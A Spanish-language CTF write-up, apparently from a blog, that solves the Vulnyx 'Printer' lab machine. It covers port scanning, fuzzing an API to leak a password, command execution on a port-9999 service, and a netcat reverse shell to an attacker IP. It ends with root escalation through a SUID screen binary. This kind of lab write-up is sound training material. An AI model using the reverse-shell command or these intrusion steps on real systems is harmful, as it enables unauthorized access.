 ```yaml
---
layout      : post
title       : "Printer - Vulnyx"
author      : elc4br4
image       : /assets/images/VULNYX/Printer-Vulnyx/Printer.jpg
optimized_image : /assets/images/VULNYX/Printer-Vulnyx/Printer.jpg
category    : [ Vulnyx ]
tags        : [ Linux, Vulnyx ]
description : En esta ocasión vamos a resolver la máquina nivel Easy Printer de la plataforma Vulnyx.
---
```


🎩En esta ocasión vamos a resolver la máquina nivel Easy Printer de la plataforma Vulnyx🎩.

**Un pequeño INDICE**

1. [Reconocimiento](#reconocimiento).
2. [Explotación](#explotación).
4. [Escalada de Privilegios](#privesc). 

# Reconocimiento [#](reconocimiento) {#reconocimiento}

Como siempre comenzamos realizando un reconocimiento de puertos abiertos para ver por donde podemos empezar a atacar y ver que tenemos en cada puerto.

Para realizar este reconocimiento usaré la herramienta nmap.

```r
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
9999/tcp open  abyss
```

Podemos ver que tenemos los siguientes puertos abiertos, 22 (ssh), 80 (http) y 9999 (abyss).

Pero necesito saber algo más de información sobre estos puertos... por lo que lanzaré de nuevo nmap con otros parámetros para lanzar una serie de scripts de enumeración que me ayuden a obtener más información sobre estos puertos abiertos.

![](/assets/images/VULNYX/Printer-Vulnyx/nmap.png)

Ahora ye podemos ver algo más...

En el puerto 80 tenemos un simple servidor Apache... pero lo más curioso está en el puerto 9999, parece que hay una especie de login... por lo que intento conectarme para ver que hay.

A través de netcat me conecto a este puerto y veo que hay un login, pero se me pide una contraseña que no tengo... por lo que toca buscarla.

![](/assets/images/VULNYX/Printer-Vulnyx/nc1.webp)

Continúo enumerando el puerto 80 (http) donde tenemos un servidor Apache.

Tras acceder no encontré nada útil por lo que decidí fuzzear para buscar rutas dentro del servidor.

Comenzaré usando wfuzz.

![](/assets/images/VULNYX/Printer-Vulnyx/wfuzz1.webp)

Encuentro la ruta `api` por lo que sigo fuzzeando.

![](/assets/images/VULNYX/Printer-Vulnyx/wfuzz2.webp)

Accedo a la ruta `api/printers` y encuentro lo siguiente.

Search for your printer with the following format: printer<id>.<ext>

Tras ver esto ya se que he de hacer, continuar fuzzeando.

Debemos descubrir un número (el id) y su extensión... y para ello usamos de nuevo wfuzz.

Tras probar y probar descubrí que la extensión era .json, por lo que generando un rango de números del 1 a 9999 puedo descubrir el id.

![](/assets/images/VULNYX/Printer-Vulnyx/wfuzz3.webp)

Y tras ir probando 1 a 1 cada `id` descubro esto.

![](/assets/images/VULNYX/Printer-Vulnyx/json.webp)

Encontramos una contraseña...

> "$3cUr3Pr1nT3RP4ZZw0rD"

# Explotación [#](explotación) {#explotación}

Tras obtener la contraseña pruebo a utilizarla para conectarme al puerto 9999.

![](/assets/images/VULNYX/Printer-Vulnyx/nc2.webp)

Tras acceder ejecuto el comando `?` para que me muestre la ayuda con para ver todos los parámetros que puedo ejecutar y veo que con el comando exec puedo ejecutar comandos en la misma máquina.

```bash
> exec whoami
printer
> exec id
uid=1000(printer) gid=1000(printer) grupos=1000(printer)
```

Por lo que lo aprovecho para introducir una reverse shell en netcat y ganar acceso a la máquina.

```bash
> exec nc -e /bin/bash 192.168.0.32 4444
```

Y gano acceso a la máquina por fin!

![](/assets/images/VULNYX/Printer-Vulnyx/nc3.webp)

Tras acceder ya puedo leer la flag de usuario y proceder al siguiente paso... escalar privielegios.

# Escalada de Privilegios [#](Escalada de Privilegios) {#privesc}

Primero enumero archivos con permisos 4000.

```bash
printer@printer:/var/spool/lpd$ find / -perm -4000 2>/dev/null
find / -perm -4000 2>/dev/null
/usr/bin/mount
/usr/bin/su
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/umount
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/screen
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

```bash
printer@printer:/var/spool/lpd$ ls -la /usr/bin/screen
ls -la /usr/bin/screen
-rwsr-xr-x 1 root root 482312 feb 27  2021 /usr/bin/screen
```

Y veo que el binario screen puede servirme para escalar privilegios.

Y es muy sencillo, con screen podemos hacer un attach con el parámetro -x a una sesión o pantalla digamos, que en este caso sería la de root.

De la siguiente forma:

```bash
screen -x root/
```

Y ya nos habremos convertido en root.

![](/assets/images/VULNYX/Printer-Vulnyx/root.webp)



